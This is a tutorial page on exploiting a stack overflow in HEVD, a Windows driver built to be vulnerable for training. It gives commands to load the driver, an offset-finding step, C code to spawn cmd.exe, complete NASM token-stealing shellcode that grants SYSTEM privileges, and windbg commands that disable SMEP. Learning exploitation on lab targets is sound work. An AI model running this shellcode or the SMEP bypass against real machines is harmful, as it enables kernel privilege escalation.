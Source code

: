 ```yaml
---
title: '2: Exploiting the HEVD'
---
```


#<%= current_page.data.title %>

**HEVD** is short for **[ HackSys Extreme Vulnerable Driver](https///github.com/hacksysteam/HackSysExtremeVulnerableDriver)**. It will be our easy (and not so easy) way into the kernel.

It's a driver specifically programmed to be vulnerable to typical driver vulnerabilities. It hasn't been signed by Microsoft (I wonder why?) so in order to load it you have to either disable "Driver Signature Enforcement" via the Windows 10 special startup menu or attach a kernel debugger. The latter should be the obvious choice since it will also help us in debugging the driver and our exploit. Windows will still complain that the driver is unsigned but will load it anyway. Just try without the attached debugger and you will see the difference. 

Get the *OSR driver loader* if you prefer a gui to load the driver or just use the command line:

	:::bash
	#register driver
	sc create HEVD type= kernel start= demand error= normal DisplayName= HEVD binpath= c:\_test\HEVD.sys
	#sc description HEVD HEVD
	sc start HEVD
	sc stop HEVD
	# unregister driver:
	sc delete HEVD






## Exercise 1: Understanding DriverEntry


	
	Calling Conventions
	Parameters: RCX, RDX, R8, R9, stack..
	(Floating point parameters:  XMM0L, XMM1L, XMM2L und XMM3L)
	volatile: RAX, R10, R11, XMM4 und XMM5
	non-volatile: RBX, RBP, RDI, RSI, RSP, R12, R13, R14 und R15
	return value: RAX
	


	
	# Windbg
	ed Kd_DEFAULT_Mask 8
	


## Stack Overflow

Since the driver didn't return anything useful our second test will be to send a very large buffer to the driver and see what happens (   [https://stlt.de/doku.php?id=tutorials:winexp:hevd:source1](https///stlt.de/doku.php?id=tutorials/winexp/hevd/source1)). 

[{{:tutorials:winexp:hevd:stack_41.png?direct&400|41 Everywhere!}}]

## Pattern


[https://github.com/Svenito/exploit-pattern/blob/master/pattern.py](https///github.com/Svenito/exploit-pattern/blob/master/pattern.py)

	
	python .\pattern.py "0x3771433671433571"
	Pattern 0x3771433671433571 first occurrence at position 2056 in pattern.


	
	bp fffff801`98f05708


## Shellcode

We can now control the driver execution. Instead of returning from the function we can make the processor execute whatever we wish with ring 0 privileges. The main downside is that this *whatever we wish* has to be position independent code.

`<spoiler|why?>`
Normal windows executables and dll's are, I think the technical term is *Load-time locatable code*. They call library functions  relative to the library base address. The addresses where the functions actually are in memory are calculated when the program is loaded. Without ASLR (address space layout randomization) the library would be in the same place all the time, with ASLR its location is random. And ASLR has been implemented in every major OS for centuries (or at least since around Vista).

`</spoiler>`

Position independent code can be 'created' in basically two ways:
 1.  A very simple piece of code that doesn't require any library calls
 2.  A rather complicated piece of code that finds all relevant library addresses by itself 
So of course we will chose option 1. This simple code is usually written in Assembler and it is called *Shellcode* because it's main 'historic' use was starting a shell. It still is in many cases (remote execution etc.) but in our case it isn't. We can start a *cmd.exe* from our user mode code but we need the shellcode to elevate the privileges of said cmd shell. This isn't strictly required since you probably opened a shell already. But it makes it easier to identify the correct cmd.exe to elevate. 

So let's spawn a shell really quick and get its process identifier:

	:::c
	STARTUPINFOA si;
	PROCESS_INFORMATION pi;
	
	ZeroMemory(&si, sizeof(STARTUPINFO));
	ZeroMemory(&pi, sizeof(PROCESS_INFORMATION));
	si.cb = sizeof(STARTUPINFOA);
	
	if (!CreateProcessA(NULL, "cmd.exe", NULL, NULL, TRUE, CREATE_NEW_CONSOLE, NULL, NULL, &si, &pi)) {
		printf("[Duh!]: Error creating cmd.exe\n");
		return -1;
	}
	DWORD cmd_pid = pi.dwProcessId;


`</spoiler>`

The easiest shellcode solution to escalate the privileges of a windows process is borrowing a system token. It is pretty much the assembly version of the token stealing tutorial from [https://stlt.de/doku.php?id=tutorials:winkdbg:part4_processes](https///stlt.de/doku.php?id=tutorials/winkdbg/part4_processes).

	:::asm
	;NASM
	bits 64 
	section .text
	global _start
	
	_start:
		mov r9, [gs:0x188]  		; KPCR+KPCRB+KTHREAD
		mov r9, [r9 + 0x220]		; _EPROCESS
		mov r8, [r9 + 0x3e0]		; InheritedFromUniqueProcessId
		mov rax, r9
	loop1:
		mov rax, [rax + 0x2f0]		; ActiveProcessLinks
		sub rax, 0x2f0						
		cmp [rax + 0x2e8], r8		; find Parent
		jne loop1
		mov rcx, rax
		add rcx, 0x358				; Token address
		mov rax, r9
	loop2:
		mov rax, [rax + 0x2f0]
		sub rax, 0x2f0
		cmp [rax + 0x2e8], dword 4
		jne loop2
		mov rdx, rax
		add rdx, 0x358
		mov rdx, [rdx]
		mov [rcx], rdx 
		ret
	


Compile and extract raw code

	:::bash
	nasm token1.asm -o token1.bin -f bin
	# radare2 
	radare2 -b 32 -c pc ./token1.bin
	# or use HxD Hex editor: Edit -> Copy as -> C


[{{:tutorials:winexp:hevd:hxd.png?400|Extracting binary shellcode with HxD.}}]

## DEP


	:::c
	BOOL WINAPI VirtualProtect(
	  _In_  LPVOID lpAddress,
	  _In_  SIZE_T dwSize,
	  _In_  DWORD  flNewProtect,
	  _Out_ PDWORD lpflOldProtect
	);


## SMEP

Smep, short for *Supervisor mode execution protection* is a processor feature to prevent code running in the kernel from executing code inside user space memory. It is meant to prevent what we are trying to do: putting shellcode somewhere into user space memory and tricking the kernel into executing it. To circumvent it we would have to either find a way to load the shellcode into a memory page executable by the kernel or we would have to disable SMEP. To keep things simple for now we will do neither. Virtualbox doesn't support SMEP anyway, and anyone using VMware workstation can just disable it via GOD-MODE windbg by clearing bis 20 in the cr4 control register:

	:::bash
	# Check if cr4 bit 20 is actually set:
	r cr4
	.formats cr4
	? (@cr4 and (1 << 0n20))
	# MASM doesn't have a bitwise not, so we'll use c to clear bit 20:
	r cr4 = @@(@cr4 & ~(1<<20))


## Windbg

	:::c
	.reload
	x HEVD!*
	# sometimes:
	lm, lmv
	
	bp HEVD!TriggerStackOverflow
	pt #go to return
	u poi(rsp) -> shellcode
	bp `<shellcode>`
	
	

{{:tutorials:winexp:hevd:stackoverflow.png?direct&400|}}


